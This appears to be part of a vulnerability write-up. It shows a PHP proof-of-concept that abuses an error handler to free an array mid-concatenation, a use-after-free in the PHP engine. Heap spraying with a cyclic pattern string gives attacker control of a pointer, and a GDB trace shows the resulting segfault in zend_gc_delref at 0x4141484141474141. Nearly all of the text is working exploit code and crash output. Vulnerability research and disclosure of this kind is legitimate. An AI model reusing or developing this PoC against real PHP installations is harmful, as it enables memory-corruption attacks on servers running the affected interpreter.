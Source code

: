 ```php
<?php

function free() {

         $contiguous = [];
            for ($i = 0; $i < 10; $i++) {
                $contiguous[] = alloc(0x100, "D");
            }
        $arr = [[1,3,3,7], [5,5,5,5]];
        set_error_handler(function() use (&$arr, &$buf) {
            $arr = 1;
            $buf = str_repeat("AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABXABY", 0x1);
        });
        $arr[1] .= 1337;
        
    }


function alloc($size, $canary) {
    return str_shuffle(str_repeat($canary, $size));
}




print free();

?>
```

Fire in the hole!

```c
─────────────────────────────────────────────────────────────────────────────────────────────── source:/home/vagrant/E[...].h+1039 ────
   1034	 	ZEND_RC_MOD_CHECK(p);
   1035	 	return ++(p->refcount);
   1036	 }
   1037	 
   1038	 static zend_always_inline uint32_t zend_gc_delref(zend_refcounted_h *p) {
          // p=0x007fffffff72b8  →  0x4141484141474141
 → 1039	 	ZEND_ASSERT(p->refcount > 0);
   1040	 	ZEND_RC_MOD_CHECK(p);
   1041	 	return --(p->refcount);
   1042	 }
   1043	 
   1044	 static zend_always_inline uint32_t zend_gc_addref_ex(zend_refcounted_h *p, uint32_t rc) {
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "php", stopped 0x555555b44b2f in zend_gc_delref (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555b44b2f → zend_gc_delref(p=0x4141484141474141)
[#1] 0x555555b44b2f → i_zval_ptr_dtor(zval_ptr=0x7ffff3e5cba8)
[#2] 0x555555b44b2f → concat_function(result=0x7ffff3e5cba8, op1=0x7fffffff7310, op2=0x7fffffff7320)
[#3] 0x555555caf02b → zend_binary_op(op2=0x7ffff3e97390, op1=0x7ffff3e5cba8, ret=0x7ffff3e5cba8)
[#4] 0x555555caf02b → ZEND_ASSIGN_DIM_OP_SPEC_CV_CONST_HANDLER()
[#5] 0x555555cfb257 → execute_ex(ex=0x7ffff3e13020)
[#6] 0x555555cfe6e6 → zend_execute(op_array=0x7ffff3e802a0, return_value=0x0)
[#7] 0x555555b5213c → zend_execute_scripts(type=0x8, retval=0x0, file_count=0x3)
[#8] 0x555555a8a8ae → php_execute_script(primary_file=0x7fffffffcbe0)
```